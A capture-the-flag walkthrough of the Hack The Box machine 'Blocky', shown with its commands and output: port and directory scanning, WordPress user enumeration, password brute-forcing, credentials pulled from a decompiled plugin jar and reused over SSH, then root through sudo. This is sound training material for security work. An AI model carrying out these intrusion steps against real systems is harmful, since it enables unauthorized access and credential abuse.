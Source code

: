 # Blocky | HTB
### Difficulty Level: Easy 
----------------------------------

Start with nmap scan: 

```bash
nmap -p- -T4 -A 10.10.10.37 -oN blocky.nmap
```

-p- scans all ports instead of the 1000 common ports.

-T4 - increases the scan's speed.

-A - aggressive scan to gather more inforamtion about the system.

-oN - saves the output to file.

Results:
```bash
Nmap scan report for 10.10.10.37
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.12 (89%), Linux 3.2 - 4.9 (89%), Linux 3.8 - 3.11 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT       ADDRESS
1   112.87 ms 10.10.14.1
2   113.13 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 769.45 seconds
```
There are 4 open ports:

21 - FTP 

22 - SSH

80 - HTTP

25565 - MINECRAFT

While browse into the web page, I could not access it so add the ip-address to the 
/etc/hosts file with:

```bash
echo '10.10.10.37     blocky.htb' >> /etc/hosts
```

There is a webpage under construction.


![image](https://cdn-images-1.medium.com/max/1000/1*N4TOEPj359KkVI8m8TmVYA.png)

So, use gobuster to enumerate directories within the system.

```bash
gobuster dir -u http://blocky.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
Progress: 25176 / 220561 (11.41%)
[!] Keyboard interrupt detected, terminating.
Progress: 25176 / 220561 (11.41%)
===============================================================
Finished
```

let's navigate to /wp-admin, and there is wp-login page.

![image](https://cdn-images-1.medium.com/max/1000/1*RWW8gheMoxzx2U-G0eTvUA.png)

it's time to use wpscan to get the usernames that have wp accounts.

```bash
wpscan --url http://blocky.htb --enumerate u
```

Results:
```bash
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)****
```

There is a username: notch. 

brute force to get the password with:

```bash
wpscan --url http://blocky.htb -U notch -P /usr/share/wordlists/rockyou.txt
```

While attacking, we need to think about another way to achieve the goal.

There is phpmyadmin login page.


![image](https://cdn-images-1.medium.com/max/1000/1*PUHin7COlBautApkw8IKEg.png)


phpMyAdmin is a free and open-source web-based application written in PHP,
designed to provide a graphical interface for managing MySQL and MariaDB databases.

Let's navigate to /plugins.


![image](https://cdn-images-1.medium.com/max/1000/1*SoWU5v3D2-SKc_Lc5tcdPw.png)


there are 2 files.

both are jar file so I used jd-gui to reverse it back.

```bash
jd-gui BlockyCore.jar
```

there are some credentials:

![image](https://cdn-images-1.medium.com/max/1000/1*BFPpHkTpLmFAuEUmL1aYtg.png)

```
SQL credentials:
root:*************************************
```

So, let's try to get into the system with ssh:

```bash
ssh root@10.10.10.37
```

I didn't make it so let's try with the user notch.

```bash
ssh notch@10.10.10.37
```

and it works. we are in as notch.

Grab user.txt flag.

```bash
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
********************************
notch@Blocky:~$ 
```

Let's see if there are any files that can notch run with sudo to get root:

```bash
notch@Blocky:/tmp$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Good news. notch can run any file as any user (includs root).
so just switch user to root with:

```bash
sudo su
```

... and we are root. Grab root.txt flag.

```bash
notch@Blocky:/tmp$ sudo su
root@Blocky:/tmp# whoami
root
root@Blocky:/tmp# cat /root/root.txt 
********************************
root@Blocky:/tmp#

```

THIS IS THE END.

***Written by Alon Presman, Penetration Tester and Ethical Hacker.***



























